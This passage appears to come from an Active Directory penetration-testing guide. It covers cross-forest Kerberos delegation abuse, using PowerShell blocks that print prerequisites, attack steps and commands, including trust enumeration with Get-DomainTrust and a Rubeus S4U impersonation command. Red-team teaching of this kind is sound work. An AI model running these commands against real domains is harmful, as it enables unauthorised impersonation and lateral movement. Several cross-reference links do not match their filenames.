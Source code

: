 ```powershell
Write-Host "  # Analyze ShortestPathsToHighValueTargets" -ForegroundColor White
Write-Host "  # Look for delegation-based attack paths" -ForegroundColor White
```

### **2. Cross-Forest Delegation Attacks**

#### **Forest Trust Delegation Abuse**
```powershell
# Cross-forest delegation abuse
Write-Host "=== CROSS-FOREST DELEGATION ABUSE ===" -ForegroundColor Green

Write-Host "Attack Scenario: Cross-Forest Delegation via Trust Relationships" -ForegroundColor Red
Write-Host "`nPrerequisites:" -ForegroundColor Yellow
Write-Host "  1. Forest trust relationship exists" -ForegroundColor White
Write-Host "  2. Delegation allowed across trust" -ForegroundColor White
Write-Host "  3. Access to trusted forest resources" -ForegroundColor White

Write-Host "`nAttack Steps:" -ForegroundColor Yellow
Write-Host "  1. Enumerate forest trusts" -ForegroundColor White
Write-Host "  2. Identify cross-forest delegation" -ForegroundColor White
Write-Host "  3. Exploit delegation in trusted forest" -ForegroundColor White
Write-Host "  4. Access cross-forest resources" -ForegroundColor White
Write-Host "  5. Maintain persistence across forests" -ForegroundColor White

Write-Host "`nTrust Enumeration:" -ForegroundColor Yellow
Write-Host "  # Enumerate forest trusts" -ForegroundColor Gray
Write-Host "  Get-DomainTrust -Properties TrustType, TrustDirection, TrustAttributes" -ForegroundColor White
Write-Host "  # Look for Forest trust type" -ForegroundColor White

Write-Host "`nCross-Forest Delegation:" -ForegroundColor Yellow
Write-Host "  # Use S4U2Self across forest boundary" -ForegroundColor Gray
Write-Host "  Rubeus.exe s4u /user:delegationaccount /rc4:hash /service:crossforestservice /impersonateuser:crossforestuser" -ForegroundColor White
```

---

## 🔗 CROSS-REFERENCES

### **Related Kerberos Techniques**
- **Basic Kerberos Enumeration**: See [13_Kerberos_Basic_Enumeration.md](./23_Kerberos_Basic_Enumeration.md)
- **SPN Enumeration**: See [14_SPN_Enumeration_Techniques.md](./24_SPN_Enumeration_Techniques.md)
- **Advanced Attacks**: See [16_Kerberos_Advanced_Attacks.md](./26_Kerberos_Advanced_Attacks.md)

### **Related Enumeration Techniques**
- **User Enumeration**: See [02_User_Enumeration.md](./05_User_Enumeration.md)
- **Computer Enumeration**: See [03_Computer_Enumeration.md](./07_Computer_Enumeration.md)
- **Tool Setup**: See [01_Tool_Setup_Loading.md](./01_Tool_Setup_Loading.md)
